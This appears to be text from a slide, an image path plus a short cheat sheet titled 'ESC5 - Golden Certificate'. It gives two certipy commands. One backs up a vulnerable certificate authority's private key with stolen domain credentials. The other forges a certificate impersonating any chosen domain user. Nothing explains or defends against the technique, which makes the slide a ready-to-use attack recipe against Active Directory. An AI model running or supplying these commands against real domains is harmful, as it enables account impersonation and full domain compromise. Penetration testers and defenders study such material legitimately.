

# ESC5 - Golden Certificate
certipy ca -backup -u USER@DOMAIN -p PASS -ca VULNCA

certipy forge -ca-pfx VULN.pfx -upn TARGET@DOMAIN -subject 'CN=TARGET,CN=Users,DC=DOMAIN,DC=local' (optional -crl and -template)